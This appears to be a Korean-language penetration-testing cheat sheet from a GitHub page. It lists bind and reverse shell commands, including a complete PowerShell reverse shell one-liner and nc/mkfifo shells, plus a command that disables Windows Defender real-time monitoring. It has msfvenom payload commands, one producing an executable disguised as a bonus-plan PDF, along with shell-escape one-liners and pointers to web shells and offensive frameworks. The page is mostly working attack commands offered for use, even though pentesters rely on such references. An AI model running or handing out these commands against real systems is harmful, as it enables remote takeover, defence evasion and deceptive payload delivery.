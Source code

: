 # 1. Bind Shells

### 서버 - Bash 셸을 TCP 세션에 바인딩
```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 192.168.1.1 7777 > /tmp/f```<br/>
```nc -nv 192.168.1.1 7777```

<br/><br/>
# 2. Reverse Shell

### 클라이언트 - PowerShell을 사용하여 연결
```nc -lvnp 443```<br/>
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Windows Defender 비활성화(PowerShell 연결 차단될 경우)
```Set-MpPreference -DisableRealtimeMonitoring $true```

<br/><br/>
# 3. Payload

### MSFvenom Payload 제작 (Linux용)
```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > createbackup.elf```

### MSFvenom Payload 제작 (Windows용)
```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > BonusCompensationPlanpdf.exe```

### Search Exploit
```searchsploit 50064.rd```<br/>
경로 출력) ```searchsploit -p 50064.rd```


### Payload 생성 Resource
| **Resource**                            | **설명**                                                                                                                                                                                      |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `MSFVenom & Metasploit-Framework` | [소스](https://github.com/rapid7/metasploit-framework) MSF는 모든 펜테스터 툴킷에 매우 다재다능한 도구입니다. 호스트를 열거하고, 페이로드를 생성하고, 공개 및 사용자 지정 익스플로잇을 활용하고, 호스트에서 익스플로잇 후 작업을 수행하는 방법으로 사용됩니다. 스위스 군용 칼이라고 생각하세요. |
| `Payloads All The Things`         | [소스](https://github.com/swisskyrepo/PayloadsAllTheThings) 여기에서는 페이로드 생성과 일반적인 방법론에 대한 다양한 리소스와 치트 시트를 찾을 수 있습니다.                                                                            |
| `Mythic C2 Framework`             | [소스](https://github.com/its-a-feature/Mythic) Mythic C2 프레임워크는 Metasploit에 대한 대안으로, 고유한 페이로드 생성을 위한 명령 및 제어 프레임워크이자 툴박스입니다.                                                                 |
| `Nishang`                         | [소스](https://github.com/samratashok/nishang) 니샹은 Offensive PowerShell 임플란트와 스크립트의 프레임워크 컬렉션입니다. 여기에는 모든 펜테스터에게 유용할 수 있는 많은 유틸리티가 포함되어 있습니다.                                                 |
| `Darkarmour`                      | [소스](https://github.com/bats3c/darkarmour) Darkarmour는 Windows 호스트를 상대로 사용하기 위해 난독화된 바이너리를 생성하고 활용하는 도구입니다.                                                                                 |

### TTY 쉘 생성
```python -c 'import pty; pty.spawn("/bin/sh")'```

### 대화형 쉘(python 없는 경우)
```/bin/sh -i```<br/>
```perl —e 'exec "/bin/sh";'```<br/>
```perl: exec "/bin/sh";```<br/>
```ruby: exec "/bin/sh"```<br/>
```lua: os.execute('/bin/sh')```<br/>
```awk 'BEGIN {system("/bin/sh")}'```<br/>
```find . -exec /bin/sh \; -quit```<br/>
```vim -c ':!/bin/sh'```

### sudo 권한 확인
```sudo -l```

<br/><br/>
# 4. WebShell

### Laudanum (all)
[Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) ```/usr/share/laudanum/```

### Antak Webshell (aspx)
[Nishang Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell) ```/usr/share/nishang/Antak-WebShell```

### wwwolf-php-webshell (php)
[WhiteWinterWolf PHP Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
